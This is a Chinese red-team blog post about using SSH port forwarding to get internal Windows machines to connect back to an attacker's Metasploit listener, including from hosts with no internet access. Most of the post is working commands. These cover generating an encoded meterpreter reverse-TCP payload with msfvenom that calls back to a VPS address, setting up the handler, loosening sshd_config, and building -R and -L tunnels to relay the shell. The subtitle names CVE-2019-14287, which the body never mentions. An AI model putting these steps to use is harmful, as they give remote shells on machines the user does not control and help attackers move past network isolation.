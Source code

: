 ```yaml
---
layout:     post
title:    利用ssh隧道上线内网主机
subtitle:   CVE-2019-14287
date:       2019-10-17
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 红队
    - 渗透测试
    - 内网
---
```

# 利用ssh隧道上线内网主机
## 简介
SSH 为 Secure Shell 的缩写，SSH 为建立在应用层基础上的安全协议。SSH 是目前较可靠，专为远程登录会话和其他网络服务提供安全性的协议。利用 SSH 协议可以有效防止远程管理过程中的信息泄露问题。SSH最初是UNIX系统上的一个程序，后来又迅速扩展到其他操作平台。SSH在正确使用时可弥补网络中的漏洞。SSH客户端适用于多种平台。几乎所有UNIX平台—包括HP-UX、Linux、AIX、Solaris、Digital UNIX、Irix，以及其他平台，都可运行SSH。  
通俗点说就是一个专门用于传输网络数据的加密安全传输协议，也可用于实现VPN隧道或者绕过防火墙访问Internet服务。  

### SSH的用途
- 1.连接操作服务器    
- 2.内网穿透    
- 3.FQ  
- 4.远控上线  

### SSH命令浅析  
```
usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-b bind_address] [-c cipher_spec]
           [-D [bind_address:]port] [-E log_file] [-e escape_char]
           [-F configfile] [-I pkcs11] [-i identity_file]
           [-J [user@]host[:port]] [-L address] [-l login_name] [-m mac_spec]
           [-O ctl_cmd] [-o option] [-p port] [-Q query_option] [-R address]
           [-S ctl_path] [-W host:port] [-w local_tun[:remote_tun]]
           [user@]hostname [command]
```  
端口转发常用参数：  
```
-N #告诉SSH客户端，这个连接不需要执行任何命令。仅仅做端口转发
-f #告诉SSH客户端在后台运行
-L #本地转发
-R #远程转发
-D #动态转发
-C #数据压缩
-g #允许允许远程主机连接到建立的转发的端口，否则只是本地转发  
```
这里主要还是讲讲内网机器上线，分两个情况来讨论，有网无网情况。  
### 内网机器本地msf上线  
拓补如下：  
![191017_1](/img/191017_networkgraph1.png)  
开始，首先vps开启ssh转发  
```
# vi /etc/ssh/sshd_config
  AllowTcpForwarding yes
  GatewayPorts yes
  TCPKeepAlive yes
  PasswordAuthentication yes
# /etc/init.d/sshd restart
```
生成payload  
```
# msfvenom --platform Windows -p windows/meterpreter/reverse_tcp_rc4_dns lhost=1.1.1.1 lport=443 rc4password=nmsl -e x86/shikata_ga_nai -b '\x00' -i 5 -f exe -o dns_rc4.exe
```
然后习惯性先看看vps上443开了没  
```
# netstat -tulnp | grep ":443"
```
在本地的机器开启监听执行转发    
```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp_rc4_dns 
msf > set lport 53
msf > set lhost 192.168.1.1
msf > set rc4password nmsl
msf > set exitonsession false
msf > exploit -j

# netstat -tulnp | grep “:53”  #看看53开了没  
```
```
ssh -C -f -N -g -R 0.0.0.0:443:192.168.1.1:53 root@1.1.1.1 -p 22
```
目标机器执行payload，就可以接收到会话了。   
![191017_2](/img/191017_session.png)  
### 内网断网机器本地msf上线  
拓补如下，windows机器不通外网可以连一台不通外网的服务器，此服务器同网段中又有一台通外网的服务器：  
![191017_3](/img/191017_networkgraph.png)  
同样的生成payload  
```
msfvenom -p windows/meterpreter/reverse_tcp_rc4_dns lhost=192.168.10.3 lport=53 rc4password=nmsl -e x86/shikata_ga_nai -b '\x00' -i 5 -f exe -o rev.exe
```
vps开启监听  
```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp_rc4_dns 
msf > set lport 53
msf > set lhost 1.1.1.1
msf > set rc4password nmsl
msf > set exitonsession false
msf > exploit -j
```
然后去配置通外网的linux机器的ssh转发  
接着去不通外网的linux服务器上建立隧道  
```
# ssh -C -f -N -g -L 0.0.0.0:53:1.1.1.1:53 root@192.168.10.2 -p 22
# netstat -tulnp | grep “:53” #习惯性确认53开放  
``` 
windows执行payload就可以上线了   

## 总结与注意事项  
无论是meterpreter还是beacon都是相同的可以通过这种方式来进行上线，本质上是一样的。这里只是列举了ssh最基本的隧道用法，还有很多可以继续挖掘。  
这个方式也有个问题，毕竟是ip直连，一查看进程端口列表就能看到ip，也是容易暴露的。  
